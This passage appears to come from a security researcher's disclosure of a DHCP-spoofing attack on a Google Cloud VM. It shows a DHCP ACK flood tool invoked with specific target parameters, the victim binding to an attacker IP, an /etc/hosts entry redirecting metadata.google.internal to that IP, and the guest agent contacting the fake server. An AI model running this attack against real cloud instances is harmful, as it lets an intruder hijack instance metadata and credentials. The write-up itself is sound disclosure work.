```
root@ip-172-31-25-197:~/real8# Running for 12 sec in the background: /root/real8/flood -ack -ack -lease 1800 -dev eth0 -dstip 34.122.27.253 -newip 10.128.0.4 -route 10.128.0.1 -srcip 172.31.25.197 -mac 42:01:0a:80:00:04 -xidfile /tmp/xids.txt
MAC: 42:01:0a:80:00:04
Src IP: 172.31.25.197
Dst IP: 34.122.27.253
New IP: 10.128.0.4
New hostname:
New route: 10.128.0.1
ACK: true
Offer: false
Oneshot: false
Number of XIDs: 145
```

This was running for a while and finally succeeded at the 21th DHCPREQUEST. With normal lease times this would have taken ~11 hours.
The metadata server was taken over successfully:

```
Oct 02 15:21:30 test-instance-2 dhclient[301]: DHCPACK of 35.209.180.239 from 3.136.97.244
Oct 02 15:21:30 metadata dhclient[301]: bound to 35.209.180.239 -- renewal in 5 seconds.
```

The host file was modified according to the expectations:

```
root@test-instance-2:~# cat /etc/hosts
127.0.0.1       localhost
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

35.209.180.239 metadata.google.internal metadata  # Added by Google
169.254.169.254 metadata.google.internal  # Added by Google
```

And also got some connections from the osconfig agent (the kept-alive connection of the guest agent probably survived the network change)

```
34.122.27.253 - - [02/Oct/2020 15:29:09] "PUT /computeMetadata/v1/instance/guest-attributes/guestInventory/Hostname HTTP/1.1" 501 -
```

When I repeated this attack (2 minute XID window still), the 5th round was successful (2.5 hours with normal leases).


Conclusion about attack #2 and #3: not the most reliable thing on earth, but definetely possible. I think if I kept the victim host down
longer than the TCP read timeout of google_guest_agent, then the existing metadata server connection would be interrupted, then 
while reinitiating the connection after the network connectivity was restored, it would hit the fake metadata server.
